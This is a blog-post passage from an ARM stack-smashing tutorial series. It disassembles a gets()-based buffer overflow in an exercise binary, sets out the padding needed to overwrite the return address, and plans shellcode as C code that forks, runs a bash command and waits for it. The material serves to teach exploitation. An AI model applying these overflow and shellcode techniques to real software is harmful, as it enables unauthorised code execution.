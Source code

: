 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part VI"
---
```


We have the same vulnerability than we have in
[stack4](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-V.html)
but this time we will make our own egg/shellcode.


## Same vuln

```nasm
pwndbg> pdisass &main
 ► 0x1041c <main>       push   {fp, lr}
   0x10420 <main+4>     add    fp, sp, #4
   0x10424 <main+8>     sub    sp, sp, #0x48
   0x10428 <main+12>    str    r0, [fp, #-0x48]
   0x1042c <main+16>    str    r1, [fp, #-0x4c]
   0x10430 <main+20>    sub    r3, fp, #0x44
   0x10434 <main+24>    mov    r0, r3
   0x10438 <main+28>    bl     #gets@plt <gets@plt>

   0x1043c <main+32>    mov    r0, r3
   0x10440 <main+36>    sub    sp, fp, #4
   0x10444 <main+40>    pop    {fp, pc}
```

The plan is to overflow the buffer with 0x44 bytes of padding, then 4
bytes with the first return address.

Nothing new. But the fun is just about to begin...

## Planning the egg/exploit

We want something standard but slightly fancy:

 - spawn a shell an run an arbitrary command
 - wait for the spawned process to finish
 - exit the program

This translates to the following C code:

```cpp
#include <unistd.h>
void main() {
    pid_t child = fork();
    if (child == 0) {
        // child
        const char *argv[] = { "/bin/bash", "-c", "echo 'pwn!' > pwned_proof", NULL };
        const char *envp[] = { NULL };
        execve(argv[0], argv, envp);
    }
    else if (child != -1) {
        // parent
        wait4(child, NULL, 0, NULL);
    }
    // catch all exit
    exit_group(0);
}
```
